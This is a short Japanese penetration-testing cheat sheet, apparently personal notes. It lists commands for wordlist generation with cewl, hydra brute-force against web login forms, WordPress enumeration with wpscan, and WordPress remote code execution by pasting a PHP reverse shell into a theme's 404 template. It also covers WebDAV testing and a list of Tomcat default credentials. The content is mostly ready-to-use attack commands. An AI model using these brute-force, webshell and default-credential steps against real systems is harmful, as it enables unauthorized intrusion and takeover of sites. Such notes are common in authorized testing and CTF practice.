 ### cewl(web ページからワードリストの作成ができる)

```
cewl <URL>
```

### hydra(ブルートフォースによる認証)

```
#POST ":"以降は各アプリケーションの認証時のペイロードによって変わる。コマンドをミスると時間を浪費して悲惨なことになる。
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>

#GET 同上
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

### Wordpress

wpscan(wordpress に対するスキャン)

```
wpscan --url <URL> --enumerate ap,at,cd,dbe
```

hydra などでログインできた場合、以下手順で RCE

```
Appearance -> Editor -> 404 Template
/usr/share/webshells/php/php-reverse-shell.phpの内容をを404.phpにコピペ。テーマによって編集可能かどうかなど制限があったりするので、テーマを変えて試すのも良い。
最後に以下パスにアクセス。
http://<IP>/wp-content/themes/<theme eg:twentytwelve>/404.php
```

### WebDav

```
davtest -url <URL>
```

### Tomcat

デフォルトの認証情報

```
/manager/htmlなどが管理画面。HTTP認証。

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```
